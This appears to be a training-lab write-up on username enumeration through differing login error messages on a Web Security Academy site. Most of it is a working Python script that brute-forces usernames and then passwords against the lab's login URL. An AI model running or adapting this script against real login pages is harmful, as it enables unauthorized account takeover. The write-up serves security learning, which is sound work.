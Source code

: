# Authentication
---
# Lab: Username enumeration via different responses

**Description**

![[Pasted image 20220622185839.png]]

I've discovered that login page inform you whether you submitted wrong username or password. So whenever you enter a wrong username page returns a string as **"Invalid username"**. And same thing goes for password as well however instead of "invalid user" it returns **"Incorrect password"**.

By knowing these behaviour, we can bruteforce our wordlist and find valid username first, then valid password for this username.

```python
import requests

with open("usernames.list") as fp:
	USERNAMES = fp.read()
	l_username = USERNAMES.split()

with open("password.list") as fp:
	USERNAMES = fp.read()
	l_password = USERNAMES.split()

VALID_USERNAME = ""
VALID_PASSWORD = ""

for username in l_username:
	data = {
	"username":username,
	"password":"test"
	}

	r = requests.post("https://0aa0001204aba7edc0df3f1e00f50037.web-security-academy.net/login", data=data)

	if "invalid" not in r.text.lower():
		print(f"Found valid userame: {username}")
		VALID_USERNAME = username
		break

for password in l_password:
	data = {
	"username":VALID_USERNAME,
	"password":password	
	}

	r = requests.post("https://0aa0001204aba7edc0df3f1e00f50037.web-security-academy.net/login", data=data)
	
	if "incorrect" not in r.text.lower():
		print(f"Found valid password for {VALID_USERNAME}: {password}")
		VALID_PASSWORD = password		
		break

  
print(f"\n\n\nUsername: {VALID_USERNAME}\nPassword: {VALID_PASSWORD}")

  
# Username: ec2-user
```
